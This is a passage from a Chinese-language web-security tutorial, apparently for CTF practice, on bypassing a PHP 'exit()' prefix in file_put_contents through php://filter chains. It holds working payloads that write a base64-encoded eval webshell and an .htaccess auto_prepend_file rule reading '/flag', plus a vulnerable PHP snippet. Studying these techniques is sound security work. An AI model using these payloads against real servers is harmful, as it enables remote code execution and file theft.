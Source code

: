 **string.strip_tags**

strip_tags — 从字符串中去除 HTML 和 PHP 标记。该函数尝试返回给定的字符串 str 去除空字符、HTML 和 PHP 标记后的结果。它使用与函数 fgetss() 一样的机制去除标记。

[![cFdcUf.md.png](https://z3.ax1x.com/2021/03/30/cFdcUf.md.png)](https://imgtu.com/i/cFdcUf)

这样的话不仅去除了``<?php exit(); ?>``也会将我们的webshell过滤，但我们可以使用多个过滤器进行绕过这个限制。(php://filter允许通过 | 使用多个过滤器)

```
1、webshell用base64编码 //为了避免strip_tags的影响
2、调用string.strip_tags //这一步将去除<?php exit; ?>
3、调用convert.base64-decode //这一步将还原base64编码的webshell
```

payload：

```
?filename=php://filter/write=string.strip_tags|convert.base64-
decode/resource=3.php&content=?>PD9waHAgZXZhbCgkX1BPU1RbYV0pOw==
```

base64编码的字符串为：

```
<?php eval($_POST[a]);
```

**.htaccess的预包含利用**

+ 基本概念：

``.htaccess``文件提供了针对目录改变配置的方法，即在一个特定的文档目录中放置一个包含一条或多条指令的文件，以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过``Apache``的``AllowOverride``指令来设置。

``.htaccess``中有``#``单行注释，且支持``\``拼接上下两行。

+ 作用范围：

`.htaccess` 文件中的配置指令作用于 `.htaccess` 文件所在的目录及其所有子目录，但是很重要的、需要注意的是，其上级目录也可能会有 `.htaccess` 文件，而指令是按查找顺序依次生效的，所以一个特定目录下的 `.htaccess` 文件中的指令可能会覆盖其上级目录中的 `.htaccess` 文件中的指令，即子目录中的指令会覆盖父目录或者主配置文件中的指令。

详细-->[https://xz.aliyun.com/t/8267](https://xz.aliyun.com/t/8267)

PHP中auto_prepend_file与auto_append_file用法实例分析：[https://www.jb51.net/article/55468.html](https://www.jb51.net/article/55468.html)

payload:

```
?filename=php://filter/write=string.strip_tags/resource=.htaccess&content=?>php_value auto_prepend_file%20"/flag"
```

#### bypass相同变量

```
<?php
$content = $_GET[content];
file_put_contents($content,'<?php exit();'.$content);
```
